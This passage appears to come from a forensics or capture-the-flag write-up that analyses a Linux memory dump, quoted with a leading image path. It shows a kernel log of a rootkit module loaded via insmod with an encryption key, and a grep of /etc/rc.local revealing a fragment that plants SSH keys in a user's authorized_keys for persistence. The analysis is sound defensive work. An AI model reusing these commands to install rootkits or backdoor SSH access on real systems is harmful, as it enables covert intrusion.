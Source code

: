 ```
`sysemptyrect.mod
insmod sysemptyrect.ko crc65_key="1337tibbartibbar"
sysemptyrect: loading out-of-tree module taints kernel.
sysemptyrect: module verification failed: signature and/or required key missing - tainting kernel
Modules linked in: sysemptyrect(OE) tcp_lp nls_utf8 isofs rfcomm fuse xt_CHECKSUM iptable_mangle ipt_MASQUERADE nf_nat_masquerade_ipv4 iptable_nat nf_nat_ipv4 nf_nat nf_conntrack_ipv4 nf_defrag_ipv4 xt_conntrack nf_conntrack ipt_REJECT nf_reject_ipv4 tun bridge stp llc ebtable_filter ebtables devlink ip6table_filter ip6_tables iptable_filter vmw_vsock_vmci_transport vsock bnep sunrpc snd_seq_midi snd_seq_midi_event iosf_mbi crc32_pclmul ghash_clmulni_intel ppdev snd_ens1371 btusb snd_rawmidi aesni_intel snd_ac97_codec btrtl btbcm ac97_bus btintel vmw_balloon lrw snd_seq gf128mul bluetooth glue_helper ablk_helper cryptd snd_seq_device snd_pcm joydev pcspkr snd_timer rfkill snd sg soundcore vmw_vmci i2c_piix4 parport_pc parport pcc_cpufreq ip_tables xfs libcrc32c sr_mod cdrom ata_generic
 [<ffffffffc0a1263d>] syscall_callback+0x1cd/0x310 [sysemptyrect]
DEVPATH=/module/sysemptyrect
```

As you can see, there's references to `sysemptyrect.c` & `sysemptyrect.mod` as well as `insmod` which is a command used to add modules to the Linux kernel, a common way to install rootkits.

We also see a reference to a `crc65_key` in relation to the `sysemptyrect` kernel module:

* `insmod sysemptyrect.ko crc65_key="1337tibbartibbar"`

And if we look back at the questions, question #9 states that the rootkit uses a `crc65` encryption key, so we can safely assume that `sysemptyrect` is our rootkit and that `1337tibbartibbar` is the encryption key!

Onto the last question, question #7 (I skipped around a bit!). The attacker still has access, despite the compromised user's password being changed.

Recall that earlier, I mentioned how the attacker edited the `/etc/rc.local` file which is a Linux startup script. I suspect that this is how the attacker is maintaining access, so let's search the memory dump using the `strings` utility and try to find anything related to `/etc/rc.local`:

`strings dump.mem | grep -i /etc/rc.local`

```
vim /etc/rc.local
vim /etc/rc.local
vim /etc/rc.local
vim /etc/rc.local
vim /etc/rc.local
"/etc/rc.local" 3L, 596C
/etc/rc.local
"/etc/rc.local" 3L, 596C
[root@localhost tmp]# vim /etc/rc.local
"/etc/rc.local" 
"/etc/rc.local" 3L, 596C
"/etc/rc.local" 3L, 596C
/etc/rc.local
"/etc/rc.local" 3L, 596C
                                                                ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               "/etc/rc.local" 3L, 596C                                      1,1           All zed_keys> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authori
/etc/rc.local
/etc/rc.local
vim /etc/rc.local
/etc/rc.local
/etc/rc.local
/etc/rc.local
vim /etc/rc.local
vim /etc/rc.local
vim /etc/rc.local
```